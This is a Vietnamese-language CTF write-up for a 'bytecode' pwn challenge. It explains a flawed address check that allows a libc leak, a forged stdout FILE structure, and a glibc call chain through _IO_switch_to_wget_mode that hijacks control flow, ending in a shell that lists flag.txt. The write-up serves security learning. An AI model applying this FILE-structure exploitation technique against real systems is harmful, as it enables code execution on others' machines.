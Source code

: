 # write up bytecode 
- đọc code thấy rằng bài check khá cẩu thả như thế này 
```c

if ((unpack(code + i, sizeof(int)) & 0xffffff00) == 
        ( (uint64_t)(stack) & 0xffffff00)
        && (unpack(code + i, sizeof(int)) < (stack + STACK_SIZE))){
        ....
 }
```
- về cơ bản thì nó chỉ check lấy 3 bytes địa chỉ đầu của địa chỉ được truyền vào để so sánh với 3 bytes địa chỉ stack, nếu nó khác thì không cho run nội dung bên trong
```assembly
pwndbg> tel 0x404000
00:0000│  0x404000 (data_start) ◂— 0
01:0008│  0x404008 (__dso_handle) ◂— 0
02:0010│  0x404010 ◂— 0
03:0018│  0x404018 ◂— 0
04:0020│  0x404020 (stdout@GLIBC_2.2.5) —▸ 0x7ffff7f915c0 (_IO_2_1_stdout_) ◂— 0xfbad2887
05:0028│  0x404028 ◂— 0
06:0030│  0x404030 (stdin@GLIBC_2.2.5) —▸ 0x7ffff7f908e0 (_IO_2_1_stdin_) ◂— 0xfbad208b
07:0038│  0x404038 ◂— 0
pwndbg> 
08:0040│  0x404040 (stderr@GLIBC_2.2.5) —▸ 0x7ffff7f914e0 (_IO_2_1_stderr_) ◂— 0xfbad2087
09:0048│  0x404048 ◂— 0
0a:0050│  0x404050 ◂— 0
0b:0058│  0x404058 ◂— 0
0c:0060│  0x404060 (stack) ◂— 0
0d:0068│  0x404068 (stack+8) ◂— 0
0e:0070│  0x404070 (stack+16) ◂— 0
0f:0078│  0x404078 (stack+24) ◂— 0
pwndbg> 

```
- nhưng mà vì vùng của những địa chỉ này chứa stdin, out, err thỏa mãn nên ta có thể leak libc thông qua puts
- ngoài ra chương trình trang bị thêm phần copy dữ liệu nên có thể dễ dàng ghi đè stdout, sau khi fake xong thì chương trình có thêm hàm fwrite để có thể run được fake stdout 
- ta sẽ cần dùng đến LEA, PUTS, và PTR
- sau 77 49 test case thì em đã tìm ra 1 path để call gadgets
```c
call fwrite-> call puts-> return vtable-> call _IO_wfile_seekoff-> call __GI__IO_switch_to_wget_mode
```
```c
Dump of assembler code for function __GI__IO_switch_to_wget_mode:
   0x00007ffff7e58ea0 <+0>:	mov    rax,QWORD PTR [rdi+0xa0]
   0x00007ffff7e58ea7 <+7>:	push   rbx
   0x00007ffff7e58ea8 <+8>:	mov    rbx,rdi
   0x00007ffff7e58eab <+11>:	mov    rdx,QWORD PTR [rax+0x20]
   0x00007ffff7e58eaf <+15>:	cmp    QWORD PTR [rax+0x18],rdx
   0x00007ffff7e58eb3 <+19>:	jae    0x7ffff7e58ed4 <__GI__IO_switch_to_wget_mode+52>
=> 0x00007ffff7e58eb5 <+21>:	mov    rax,QWORD PTR [rax+0xe0]
   0x00007ffff7e58ebc <+28>:	mov    esi,0xffffffff
   0x00007ffff7e58ec1 <+33>:	call   QWORD PTR [rax+0x18]
```
- tại __GI__IO_switch_to_wget_mode sẽ có 1 cái call rất sus và nó call những gì mình có thể kiểm soát từ _IO_FILE_plus fake nên mình có thể chạy gadget từ đây  
- sau khi run script 
```bash
[*] Switching to interactive mode
 sh: line 1: $'\020\b': command not found
$ ls
Dockerfile   bytecode         ld-linux-x86-64.so.2  makefile    sc.py      test
__pycache__  bytecodee.bndb  libc.so.6           message.txt    solve.py
b.py         flag.txt         main.c           need.py    struct.c
$  
```

